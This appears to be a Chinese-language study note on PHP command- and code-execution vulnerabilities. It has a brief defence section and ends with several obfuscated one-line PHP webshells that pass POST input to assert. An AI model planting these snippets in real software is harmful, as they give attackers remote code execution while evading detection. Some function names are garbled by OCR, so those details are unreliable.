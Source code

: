 #### 命令执行函数

system，exec，shell_exec，popen，passthru，proc_open，pcntl_exec

以dos或者shell的形式执行

常见绕过方法：

[![HVQTsg.png](https://s4.ax1x.com/2022/02/03/HVQTsg.png)](https://imgtu.com/i/HVQTsg)

常见反弹shell姿势见面试题

https://blog.csdn.net/qq_45552960/article/details/104576189

##### 防范

关于命令执行漏洞的防范大致有两种方式：一种是使用 PHP 自带的命令防注人函数，包括 escapeshellcmd() 和 escapeshellarg()，其中escapeshellemd() 是过滤的整条命令，所以它的参数是一整条命令，eseapeshellarg(） 函数则是用来保证传人命令执行函数里面的参数确实是以字符串参数形式存在的，不能被注人。除了使用这两个函数，还有对命令执行函数的参数做白名单限制，下面我们来详细介绍。

#### 代码执行函数

eval，assert，preg_replace，all_user_func，call_user_func_array，array_map，array_filter，create_function

执行脚本代码，可以同时结合命令执行函数

php代码执行

~~~php
变量覆盖 
<?php
$bb="assert";
$aa='bb';
$$aa($_POST['a']);
?>
等价替换
<?php
$a = str_replace("bb","","asbbsert");  
$a($_POST['a']);
?>
加密解密
<?php
$a = base64_decode("YXNzZXJ0");
$a($_POST['a']);
?>
符号.连接
$a = "a"."ss";
$b = "e"."rt";
$c = $a.$b;
$c($_POST['a']);
parse_str函数
<?php
$str = "a=assert";
parse_str($str);
$a($_POST['a']);
?>
~~~